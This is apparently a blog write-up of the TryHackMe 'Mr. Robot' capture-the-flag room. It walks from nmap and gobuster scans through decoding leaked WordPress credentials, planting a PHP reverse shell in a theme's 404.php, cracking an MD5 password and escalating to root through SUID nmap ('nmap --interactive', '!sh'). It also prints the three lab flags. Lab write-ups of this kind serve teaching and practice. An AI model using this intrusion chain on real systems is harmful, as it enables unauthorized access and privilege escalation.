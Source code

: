 ```yaml
---
title: "TryHackMe - Mr. Robot CTF"
date: 2025-04-24 12:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress , php, mrrobot, reverse shell, gobuster, nmap, GTFObins  ]
---
```



## Reconnaissance and Key 1

For this [CTF challenge](https://tryhackme.com/room/mrrobot), I began enumeration against the target 10.10.251.86 using **Nmap**:

```console
──(kali㉿kali)-[~/Desktop]
└─$ nmap -sC -sV -T4 -p- 10.10.251.86
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-30 05:27 EDT
Nmap scan report for 10.10.251.86
Host is up (0.069s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache
443/tcp open   ssl/http Apache httpd
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=www.example.com
| Not valid before: 2015-09-16T10:45:03
|_Not valid after:  2025-09-13T10:45:03
|_http-server-header: Apache

```

Open ports discovered:

- 80/tcp – HTTP (Apache)

- 443/tcp – HTTPS 

- 22/tcp – closed

Directory enumeration with `Gobuster` revealed `WordPress`- related paths:

```console
┌──(kali㉿kali)-[~/Desktop]
└─$ gobuster dir -u http://10.10.251.86 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.251.86
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 235] [--> http://10.10.251.86/images/]
/blog                 (Status: 301) [Size: 233] [--> http://10.10.251.86/blog/]
/rss                  (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/sitemap              (Status: 200) [Size: 0]
/login                (Status: 302) [Size: 0] [--> http://10.10.251.86/wp-login.php]
/0                    (Status: 301) [Size: 0] [--> http://10.10.251.86/0/]
/feed                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/video                (Status: 301) [Size: 234] [--> http://10.10.251.86/video/]
/image                (Status: 301) [Size: 0] [--> http://10.10.251.86/image/]
/atom                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/atom/]
/wp-content           (Status: 301) [Size: 239] [--> http://10.10.251.86/wp-content/]
/admin                (Status: 301) [Size: 234] [--> http://10.10.251.86/admin/]
/audio                (Status: 301) [Size: 234] [--> http://10.10.251.86/audio/]
/intro                (Status: 200) [Size: 516314]
/wp-login             (Status: 200) [Size: 2664]
/css                  (Status: 301) [Size: 232] [--> http://10.10.251.86/css/]
/rss2                 (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/]
/license              (Status: 200) [Size: 309]
/wp-includes          (Status: 301) [Size: 240] [--> http://10.10.251.86/wp-includes/]
/js                   (Status: 301) [Size: 231] [--> http://10.10.251.86/js/]
/Image                (Status: 301) [Size: 0] [--> http://10.10.251.86/Image/]
/rdf                  (Status: 301) [Size: 0] [--> http://10.10.251.86/feed/rdf/]
/page1                (Status: 301) [Size: 0] [--> http://10.10.251.86/]
/readme               (Status: 200) [Size: 64]
/robots               (Status: 200) [Size: 41]
/dashboard            (Status: 302) [Size: 0] [--> http://10.10.251.86/wp-admin/]
/%20                  (Status: 301) [Size: 0] [--> http://10.10.251.86/]
/wp-admin             (Status: 301) [Size: 237] [--> http://10.10.251.86/wp-admin/]
/0000                 (Status: 301) [Size: 0] [--> http://10.10.251.86/0000/]
/phpmyadmin           (Status: 403) [Size: 94]
/xmlrpc               (Status: 405) [Size: 42]
```

Among the discovered resources was `https://10.10.251.86/robots`, containing two files:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

I downloaded both using:

```
wget http://10.10.251.86/fsocity.dic
wget http://10.10.251.86/key-1-of-3.txt
```

Inside `key-1-of-3.txt`, I found an MD5 hash : 

`073403c8a58a1f80d943455fb30724b9`. 

## Key 2
Later, I found a suspicious Base64 string in the `http://10.10.251.86/license` :

```
what you do just pull code from Rapid9 or some s@#% since when did you become a script kitty?
do you want a password or something?
ZWxsaW90OkVSMjgtMDY1Mgo=
```

Decoded with [CyberChef](https://gchq.github.io/CyberChef/), it revealed credentials:

![1creds](/images/mrrobotctf/1creds.jpg)


`elliot:ER28-0652`


Logging into the WordPress admin panel via `/wp-login` was successful. The `elliot` user had administrative privileges, including the ability to edit themes and plugins. Leveraging these rights, I followed a technique described in the article [From Wordpress to Reverse Shell](https://medium.com/@akshadjoshi/from-wordpress-to-reverse-shell-3857ee1f4896). I used the [Reverse Shell Generator](https://www.revshells.com/) and selected the `PHP PentestMonkey` payload, which I then injected into the `404.php` file to gain a reverse shell.

![2revshell](/images/mrrobotctf/2revshell.jpg)


Triggering the payload by visiting the following URL:

`http://10.10.251.86/wp-content/themes/404template/404.php`

established a reverse shell. 

 In the `/home/robot/` directory, I found:

```
$ ls      
key-2-of-3.txt
password.raw-md5
$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
$ cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b
```

The hash cracked using [CrackStation](https://crackstation.net) yelded

![3crack](/images/mrrobotctf/3crack.png)

 `abcdefghijklmnopqrstuvwxyz`


Once the reverse shell was established, it lacked full interactivity. To upgrade it, I ran:

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

The user was successfully switched to `robot` using the previously cracked password. Once logged in, I was able to read the second key stored in the `key-2-of-3.txt` file.

```console
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```


## Key 3

The clue for the third key was `nmap`. I proceed with the privilege escalation attempt. The first step is to search for SUID files that I can use for escalation.

`find / -perm -u=s -type f 2>/dev/null`

```console
robot@linux:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/ping
/bin/umount
/bin/mount
/bin/ping6
/bin/su
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/sudo
/usr/local/bin/nmap
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/pt_chown
```
Among the results, an interesting executable appears: `/usr/local/bin/nmap`, which has the SUID bit set.


Based on the previous scan which revealed a nmap binary with the SUID bit set, I referenced [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/#suid) to check for privilege escalation vectors. Following the documented method, I launched nmap in interactive mode and executed a system shell:

```
nmap --interactive
nmap> !sh
```

As a result, I gain a root shell, which allows me to access the `/root` directory and retrieve the final key stored in `key-3-of-3.txt`.

```
cd /root
# ls
ls
firstboot_done  key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```
